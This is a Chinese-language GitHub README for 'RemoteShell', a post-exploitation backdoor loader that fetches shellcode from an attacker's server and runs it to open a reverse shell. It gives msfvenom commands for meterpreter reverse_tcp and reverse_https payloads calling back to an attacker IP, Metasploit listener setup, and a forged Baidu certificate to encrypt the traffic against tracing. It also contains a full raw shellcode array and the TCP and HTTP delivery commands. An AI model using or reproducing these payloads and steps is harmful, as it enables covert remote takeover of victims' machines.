 # RemoteShell 远程Shell加载工具

<br>

<div align=center>
 
![image](https://user-images.githubusercontent.com/52789403/192442397-bc23a92a-41f9-4d54-990f-3697ba9fc701.png)
 
</div>

<br>

这是一款远程`ShellCode`后门加载运行程序，工具主要用于在后渗透阶段使用，可动态传输并执行服务端发送的ShellCode载荷，实现动态反弹。

 - 生成无加密ShellCode

非加密ShellCode代码主要用于测试可用性,由于数据包非加密,所以无法应对网络溯源.
```C
# 生成代码
[root@localhost ~]# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp \
-b '\x00\x0b' lhost=192.168.93.128 lport=9999 -f c

[root@localhost ~]# msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp \
-b '\x00\x0b' lhost=192.168.93.128 lport=9999 -f c

# 建立侦听器
[root@localhost ~]# msfconsole
msf6 exploit(handler) > use exploit/multi/handler
msf6 exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(handler) > set lhost 192.168.93.128
msf6 exploit(handler) > set lport 9999
msf6 exploit(handler) > set EXITFUNC thread
msf6 exploit(handler) > exploit -j -z
```

 - 生成加密ShellCode

通过伪造证书克隆百度PEM文件,并应用于反向ShellCode代码中,此时代码在传输层已经被SSL加密.
```C
# 生成代码
[root@localhost ~]# openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
> -subj "/C=UK/ST=London/L=London/O=Development/CN=www.baidu.com" \
> -keyout www.baidu.com.key -out www.baidu.com.crt

[root@localhost ~]# cat www.baidu.com.key www.baidu.com.crt > www.baidu.com.pem
[root@localhost ~]# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_https \
> lhost=192.168.93.128 lport=8443 PayloadUUIDTracking=true PayloadUUIDName=MyShell \
> HandlerSSLCert=/root/www.baidu.com.pem StagerVerifySSLCert=true \
> -f c -o /root/shell.c

# 建立侦听器
[root@localhost ~]# msfconsole
msf6 exploit(handler) > use exploit/multi/handler
msf6 exploit(handler) > set payload windows/meterpreter/reverse_https
msf6 exploit(handler) > set LHOST 192.168.93.128
msf6 exploit(handler) > set LPORT 8443
msf6 exploit(handler) > set HandlerSSLCert /root/www.baidu.com.pem
msf6 exploit(handler) > set StagerVerifySSLCert true
msf6 exploit(handler) > exploit -j -z
```

 - TCP反弹演示

用户通过`msfvenom`生成ShellCode代码，然后将其保存为`shellcode.log`文本文件。
```C
"\xb8\xda\x7e\x23\x13\xdb\xc3\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
"\x59\x31\x43\x14\x83\xeb\xfc\x03\x43\x10\x38\x8b\xdf\xfb\x33"
"\x74\x20\xfc\x2b\xfc\xc5\xcd\x79\x9a\x8e\x7c\x4d\xe8\xc3\x8c"
"\x26\xbc\xf7\xbd\xc7\xca\x8a\x95\x38\x7a\x20\xc0\x77\x44\x19"
"\x30\x16\x38\x60\x65\xf8\x01\xab\x78\xf9\x46\x7d\xf6\x16\x1a"
"\xf5\xaa\xf8\x10\x4b\x77\xf9\xf6\xc7\xc7\x81\x73\x17\x90\x05"
"\x30\x99\xcf\x6e\x80\x81\xbf\xfb\x49\x92\x3e\x28\xec\x1b\x34"
"\xf2\xde\x64\xfc\x81\x15\x10\xfe\x43\x64\xe6\xad\xaa\x48\xeb"
"\xac\xeb\x6f\x14\xdb\x07\x8c\xa9\xdc\xdc\xee\x75\x68\xc2\x49"
"\xfd\xca\x26\x6b\xd2\x8d\xad\x67\x9f\xda\xe9\x6b\x1e\x0e\x82"
"\x90\xab\xb1\x44\x11\xef\x95\x40\x79\xab\xb4\xd1\x27\x1a\xc8"
"\x01\x8f\xc3\x6c\x4a\x22\x15\x10\xb3\xbc\x1a\x4c\x23\x70\xd7"
"\x6f\xb3\x1e\x60\x03\x81\x81\xda\x8b\xa9\x4a\xc5\x4c\xb8\x5d"
"\xf6\x83\x02\x0d\x08\x24\x72\x07\xcf\x70\x22\x3f\xe6\xf8\xa9"
"\xbf\x07\x2d\x47\xca\x9f\x0e\x3f\x97\xdf\xe7\x3d\x28\xc7\xf8"
"\xc8\xce\x57\x57\x9a\x5e\x18\x07\x5a\x0f\xf0\x4d\x55\x70\xe0"
"\x6d\xbc\x19\x8b\x81\x68\x71\x24\x3b\x31\x09\xd5\xc4\xec\x77"
"\xd5\x4f\x04\x87\x98\xa7\x6d\x9b\xcd\xdf\x8d\x63\x0e\x4a\x8d"
"\x09\x0a\xdc\xda\xa5\x10\x39\x2c\x6a\xea\x6c\x2f\x6d\x14\xf1"
"\x19\x05\x23\x67\x25\x71\x4c\x67\xa5\x81\x1a\xed\xa5\xe9\xfa"
"\x55\xf6\x0c\x05\x40\x6b\x9d\x90\x6b\xdd\x71\x32\x04\xe3\xac"
"\x74\x8b\x1c\x9b\x06\xcc\xe2\x59\x21\x75\x8a\xa1\x71\x85\x4a"
"\xc8\x71\xd5\x22\x07\x5d\xda\x82\xe8\x74\xb3\x8a\x63\x19\x71"
"\x2b\x73\x30\xd7\xf5\x74\xb7\xcc\x06\x0e\xb8\xf3\xe7\xef\xd0"
"\x97\xe8\xef\xdc\xa9\xd5\x39\xe5\xdf\x18\xfa\x52\xef\x2f\x5f"
"\xf2\x7a\x4f\xf3\x04\xaf";
```

服务端就是攻击者，在本机执行如下命令，意思是使用TCP模式，侦听本地`8889`端口，一旦客户端上线则自动将`shellcode.log`传输给客户端。
```C
Shell> RemoteShell.exe RunServer --type tcp --listen 8889 --shellcode d://shellcode.log

[*] TCP服务端启动端口: 8889 正在等待上线.
```

此时客户端执行如下命令，意思是主动连接到服务端`127.0.0.1`下面的`8889`端口并执行ShellCode反弹。
```C
Shell> RemoteShell.exe RunClient --type tcp --address 127.0.0.1 --port 8889
```

 - HTTP反弹演示

与TCP反弹类似，HTTP反弹则走的是Web模式，执行如下命令则会启动一个Web服务器，你需要将攻击在和放入到与反弹程序在一个目录下并命名为`shellcode.raw`
```C
Shell> dir

shellcode.raw

Shell> RemoteShell.exe RunServer --type http --listen 8888
[*] 本地端口 8888 正在侦听

GET /favicon.ico HTTP/1.1
Host: 127.0.0.1:8888
Connection: keep-alive
sec-ch-ua: "Google Chrome";v="105", "Not)A;Brand";v="8", "Chromium";v="105"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: http://127.0.0.1:8888/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9

[+] 获取长度 => [ 1665 bytes ]
[*] 发送 ShellCode 完成.
```









GitHub项目地址：https://github.com/lyshark/RemoteShell
